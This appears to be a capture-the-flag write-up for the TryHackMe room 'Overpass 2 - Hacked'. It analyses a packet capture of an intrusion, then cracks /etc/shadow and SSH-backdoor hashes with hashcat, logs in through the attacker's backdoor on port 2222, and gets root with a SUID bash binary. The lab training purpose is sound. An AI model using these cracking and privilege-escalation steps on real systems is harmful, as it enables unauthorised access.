

# Overpass 2 - Hacked (THM)

- https://tryhackme.com/room/overpass2hacked
- March 22, 2023
- easy

---

## Forensics - Analyse the PCAP

- download the `pcapng` file and open with wireshark

1. What was the URL of the page they used to upload a reverse shell?


2.  What payload did the attacker use to gain access?
- follow this http stream and found reverse shell code



3. What password did the attacker use to privesc?
- in payload the attacker used port 4242 and filter with port 4242


- follow this tcp stream and found password


4. How did the attacker establish persistence?

- Github link from tcp stream

5. Using the fasttrack wordlist, how many of the system passwords were crackable?

- wordlist fasttrack - https://github.com/drtychai/wordlists/blob/master/fasttrack.txt
- from tcp stream, can see the contents of `/etc/shadow` file and copy to local machine as `shadow` file
- I used hashcat with wordlist fasttrack.txt

```sh
$ hashcat -m 1800 shadow /usr/share/wordlists/fasttrack.txt 
```
- found 4 passwords

## Analyse the code

6. What's the default hash for the backdoor?

- backdoor (GO) - https://github.com/NinjaJc01/ssh-backdoor
- from `main.go` file


7. What's the hardcoded salt for the backdoor?


8. What was the hash that the attacker used? - go back to the PCAP for this!


9. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

- save `$pass.$salt` like this 


- use hashcat to crack password

```sh
$ hashcat -m 1710 crack.hash /usr/share/wordlists/rockyou.txt
```
- found password

## Get back in!


### Nmap

- already know that can enter ssh but to make sure run nmap 

```
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    syn-ack     Apache httpd 2.4.29 ((Ubuntu))
2222/tcp  open     ssh     syn-ack     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
```

### User Access

- 2222 ssh is hacker's backdoor
- this ssh use sha1 and openssh will report an error
- https://stackoverflow.com/questions/69875520/unable-to-negotiate-with-40-74-28-9-port-22-no-matching-host-key-type-found-th
- cannot enter ssh 
- in `.ssh/config` in your local machine, write like this

```
Host REMOTE_IP
    HostKeyAlgorithms +ssh-rsa
    PubkeyAcceptedAlgorithms +ssh-rsa
```

- enter ssh at port 2222 as james with passphrase that was cracked before
```sh
 ssh -p 2222 james@10.10.205.202
```

### Root Access

- there is suid bit file in james' home directory

```sh
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ls -la .suid_bash 
-rwsr-sr-x 1 root root 1113504 Jul 22  2020 .suid_bash
```
- it is just `suid bash` binary
- just execute with `-p` flag and get root access
```sh
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat user.txt
.suid_bash-4.4# cat /root/root.txt 
```